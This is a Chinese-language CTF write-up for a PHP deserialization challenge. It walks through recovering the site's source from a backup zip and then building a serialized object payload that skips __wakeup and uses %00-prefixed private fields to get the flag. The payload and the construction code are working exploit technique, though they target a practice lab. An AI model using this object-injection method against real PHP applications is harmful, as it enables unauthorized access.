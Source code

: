 ```yaml
---
title: 极客大挑战 2019PHP 1
date: 2022-05-14 22:13:04
toc: false
tags:
- CTF
- 反序列化
categories: CTF
my: php1
---
```


打开题目看见猫猫的动画，非常的简陋（bushi）大佬制作的动画还是很强

![](https://s2.loli.net/2022/05/15/19agnTkZNpbCM6u.png)

按F12没有任何提示，看见题目说的备份文件，就直接去扫了目录，发现了`www.zip`，直接去访问下载了网站源码

![](https://s2.loli.net/2022/05/15/FXqgWCYipZLsEca.png)

~~直接打开flag.php好拿到flag本题结束~~

怎么可能这么简单发现flag很明显就是假的，接下里就开始分析源码吧

![](https://s2.loli.net/2022/05/15/yBMikTZsj7Wa4tX.png)这里加载了一个class.php文件，然后采用get传递一个select参数，随后将之反序列化

我们接着打开class.php，很好非常多，看着就头大

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

根据代码的可以知道，如果password=100，username=admin，在执行__destruct()的时候可以获得flag，我就直接去构造反序列化:

```php
<?php

class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
var_dump(serialize($a));

?>
```

得到结果

```
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

在反序列化的时候会首先执行`__wakeup()`魔术方法，这个方法会把我们的username重新赋值，当属性个数的值大于实际属性个数时，会跳过 __wakeup()函数的执行，从而修改为如下

```
O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，类名和字段名前面都会加上%00的前缀，再次改造序列化后得到如下

```
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

直接构造payload

```
/?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

直接拿到flag
